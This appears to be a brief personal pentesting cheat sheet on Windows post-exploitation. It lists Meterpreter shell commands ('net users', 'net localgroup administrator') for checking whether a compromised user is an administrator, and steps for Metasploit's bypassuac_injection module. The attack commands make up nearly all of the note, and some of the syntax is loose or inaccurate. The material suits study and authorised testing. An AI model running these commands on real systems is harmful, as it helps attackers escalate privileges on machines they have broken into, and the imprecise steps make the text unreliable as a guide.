 # How to see wheather the gained user access is a part of administrative group
+ meterpreter>shell
+ net users
+ net localgroup administrator


## bypassing uac
>search bypassuac_injection
- exploit/windows/local/bypassuac_injection
>set payload to x64 arch
>set target to windows\ x64 arch
### this will not elevate the privilage ..it will only disable the UAC 
